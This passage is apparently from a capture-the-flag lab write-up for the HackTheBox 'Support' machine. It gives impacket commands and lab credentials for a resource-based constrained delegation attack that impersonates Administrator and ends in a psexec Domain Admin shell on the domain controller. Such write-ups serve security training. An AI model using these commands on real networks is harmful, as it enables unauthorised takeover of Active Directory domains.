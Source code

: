 - now we can conduct the RBCD attack using `impacket-rbcd` script, we will specify our controlled account which is GR4YPC$ and our target account which is DC$ and then specify the action as wtite

```shell
impacket-rbcd -delegate-from 'GR4YPC$' -delegate-to 'DC$' -dc-ip 10.10.11.174 -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

![](assets/Support_assets/Pasted%20image%2020231116200738.png)

```ad-note
the write action will append value to the `msDS-AllowedToActOnBehalfOfOtherIdentity`
So it will append our controlled account as a value to this property
```

- now we can retrieve a TGT as the user Administrator

```shell
impacket-getST -spn 'cifs/DC.support.htb' -impersonate Administrator -dc-ip '10.10.11.174' 'support.htb/GR4YPC$:Passw0rd'
```

![](assets/Support_assets/Pasted%20image%2020231116200643.png)

```ad-note
REMEMBER: add dc.support.local to `/etc/hosts`
```

- we can then use the TGT to gain a shell as the Domain Administrator using psexec on the DC. and now we are DA

```shell
KRB5CCNAME=Administrator.ccache impacket-psexec support.htb//Administrator@dc.support.htb -k -no-pass
```

![](assets/Support_assets/Pasted%20image%2020231116202613.png)
